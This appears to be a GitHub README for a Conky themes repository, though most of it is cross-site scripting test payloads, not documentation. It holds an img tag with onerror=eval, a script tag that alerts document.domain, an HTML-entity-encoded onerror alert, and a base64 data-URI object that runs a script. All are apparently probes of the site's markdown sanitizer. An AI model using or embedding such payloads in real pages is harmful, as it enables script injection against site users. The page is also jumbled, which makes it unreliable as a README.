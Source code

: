 <img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
"<p><script type="text/javascript"" src="https://github.com/Gra8-Git/Conky_themes/blob/master/README.md/<script>alert(document.domain);   </script>"</p>"
<img src="#<script>alert(1);</script>" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
